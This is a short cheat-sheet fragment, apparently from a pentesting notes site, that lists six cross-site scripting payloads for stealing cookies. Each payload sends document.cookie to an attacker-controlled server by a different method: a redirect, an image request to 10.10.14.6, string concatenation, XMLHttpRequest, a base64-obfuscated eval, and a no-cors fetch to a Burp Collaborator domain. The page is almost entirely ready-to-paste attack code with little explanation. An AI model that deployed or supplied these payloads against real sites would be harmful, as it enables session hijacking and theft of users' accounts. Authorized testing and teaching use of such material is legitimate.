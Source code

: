 * <mark style="color:purple;">Use when you can</mark> <mark style="color:orange;">**`dynamically join the URL and cookies to redirect`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```html
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
```
{% endcode %}

* <mark style="color:purple;">Use when you can send cookies using an</mark> <mark style="color:orange;">**`image object`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```html
<script>var i=new Image(); i.src="http://10.10.14.6/?c="+document.cookie;</script>
```
{% endcode %}

* <mark style="color:purple;">Use when you need to</mark> <mark style="color:orange;">**`redirect with concatenation of cookies`**</mark> <mark style="color:purple;">into a URL:</mark>

{% code overflow="wrap" %}
```html
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
```
{% endcode %}

* <mark style="color:purple;">Use in scenarios where you can send cookies via an</mark> <mark style="color:orange;">**`XMLHttpRequest`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```html
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
```
{% endcode %}

* <mark style="color:purple;">Use when you can inject</mark> <mark style="color:orange;">**`base64-encoded JavaScript`**</mark> <mark style="color:purple;">and execute it to send cookies:</mark>

{% code overflow="wrap" %}
```html
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
```
{% endcode %}

* <mark style="color:purple;">Use when you need to send cookies via</mark> <mark style="color:orange;">**`fetch`**</mark> <mark style="color:purple;">with</mark> <mark style="color:orange;">**`no-cors`**</mark> <mark style="color:purple;">mode to</mark> <mark style="color:orange;">**`avoid response handling`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```html
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
```
{% endcode %}
